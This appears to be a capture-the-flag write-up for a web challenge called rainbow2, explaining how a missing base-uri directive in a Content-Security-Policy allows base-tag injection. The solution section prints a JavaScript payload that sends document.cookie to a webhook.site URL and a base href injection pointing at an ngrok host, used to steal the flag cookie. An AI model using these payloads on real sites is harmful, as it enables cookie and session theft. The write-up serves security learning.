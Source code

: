 ## Description
![](rainbow21.png)
///caption
///

![](rainbow22.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.


## Solution
The biggest difference of rainbow1 and rainbow2 is basically just this line:

![](rainbow23.png) 
///caption
///
From the code above basically it checks all types of content and only allows content from the same origin as the website itself or its subdomains to be loaded. It also permits scripts from same origin or inline scripts with the specific nonce (a1b2c3d4e5f6g7h8) are allowed to execute.

![](rainbow24.png)
///caption
///
Other details can refer to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy. So obviously the previous payload using `<svg>` won’t work.

![](rainbow25.png)
///caption
///
Hint released shows that we can utilize `<base>` tag which is a complete new thing for me. Found a payload at https://www.cobalt.io/blog/csp-and-bypasses `<Base Href=//X55.is>` that proves that `<base>` works. Also found a good tool that helps to evaluate the strength and weaknesses of CSP https://csp-evaluator.withgoogle.com/  and it hints us that base-uri and object-src are missing from the CSP.
Means can do base-uri injection,  found a very decent [writeup](https://medium.com/@dev.abdulhaq/csp-bypass-challenge-in-ebhadra-ctf-b2ec2f735e23) on solving this kind of challenge. <br>
So, basically i just host a python server with my js script in the directory (self created) of `/static/rainbowifyText.js` because the HTML document is loading an external JavaScript file called `rainbowifyText.js` from the `/static/` directory on the server.
Payload on server: 
```javascript {frame="none"}
window.location="https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b/"+btoa(document.cookie);
```

![](rainbow26.png)
///caption
///
Then I threw the same port I hosted with python to ngrok to make it public (at first i was running on http, but apparently it had some issues, so I hosted it with ngrok tcp 3000, copy the forwarding address and paste in into the href part of our payload)
Then send the payload below in the web app:
```javascript {frame="none"}
<base href="tcp://0.tcp.ap.ngrok.io:122606"></base>
```

![](rainbow27.png)
///caption
///
At first I sent it on the main index page to check if it works, then saw the request was coming into webhook, so just proceed to `/report` endpoint to send the payload. Flag was appended at the end of the URL encoded as base64 because according to the payload sent from my server. 

![](rainbow28.png)
///caption
///
 So just move to cyber chef decode and here we got the flag! 
 